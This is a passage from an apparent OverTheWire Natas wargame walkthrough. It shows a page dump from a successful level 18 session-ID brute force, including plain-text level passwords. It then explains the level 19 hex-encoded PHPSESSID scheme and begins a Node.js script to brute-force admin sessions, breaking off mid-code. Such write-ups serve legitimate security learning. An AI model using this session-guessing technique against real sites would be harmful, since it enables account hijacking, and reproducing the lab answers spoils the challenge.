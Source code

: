 ```javascript
// For sessionId = 107
// For sessionId = 108
// For sessionId = 109
// For sessionId = 110
// For sessionId = 111
// For sessionId = 112
// For sessionId = 113
// For sessionId = 114
// For sessionId = 115
// For sessionId = 116
// For sessionId = 117
// For sessionId = 118
// For sessionId = 119
// <html>
// <head>
// <!-- This stuff in the header has nothing to do with the level -->
// <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
// <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
// <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
// <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
// <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
// <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
// <script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
// <body>
// <h1>natas18</h1>
// <div id="content">
// DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas19
// Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
// </div>
// </body>
// </html>

// fin
```

### Level 19 `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`
- The PHPSESSID is not sequential this time. So we try to see a few different PHPSESSID for no username.
- We see that the PHPSESSID always ends with `2d` which is hexcode for ascii `-`.
- Also notice that it says, we have to login as admin, which makes it pretty safe to assume that the username has to be `admin`.
- Also the one thing to notice is that as soon as we add the username admin, the PHPSESSID starts always ending in `2d61646d696e` which is hexcode for ascii `-admin`.
- Also the prefix to `2d61646d696e` is always of the type `3x3y3z`, which makes it safe to assume that this is the sessionId ascii converted to hexcode.
- So now that we've broken their code, we'll brute-force all the PHPSESSIDs for username admin:
```javascript
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/', (req, res) => res.send('Hello World!'));

function gen(num) {
    let ch = num.toString();
    let x = '';
    for(let i=0; i<ch.length; i++) {
        x += '3';
```